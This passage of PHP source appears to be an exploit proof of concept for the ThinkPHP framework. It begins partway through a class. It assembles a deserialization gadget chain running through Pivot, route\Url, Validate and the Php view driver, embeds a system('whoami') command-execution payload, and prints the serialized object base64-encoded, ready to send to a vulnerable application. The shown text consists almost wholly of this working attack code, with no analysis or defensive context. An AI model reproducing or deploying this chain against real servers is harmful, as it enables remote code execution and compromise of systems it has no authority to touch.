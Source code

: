 ```
            $this->table = new Url();
            $this->force = true;
            $this->data = ["1"];
        }
    }
}

namespace think\model {

    use think\Model;

    class Pivot extends Model
    {
        function __construct()
        {
            parent::__construct();
        }
    }
    $b = new Pivot();
    echo base64_encode(serialize($b));
}

namespace think\route {

    use think\Middleware;
    use think\Validate;

    class Url
    {
        protected $url;
        protected $domain;
        protected $app;
        protected $route;
        public function __construct()
        {
            $this->url = 'a:';
            $this->domain = "<?php system('whoami');?>";
            $this->app = new Middleware();
            $this->route = new Validate();
        }
    }
}

namespace think {

    use think\view\driver\Php;

    class Validate
    {
        public function __construct()
        {
            $this->type['getDomainBind'] = [new Php(), 'display'];
        }
    }
    class Middleware
    {
        public function __construct()
        {
            $this->request = "2333";
        }
    }
}

```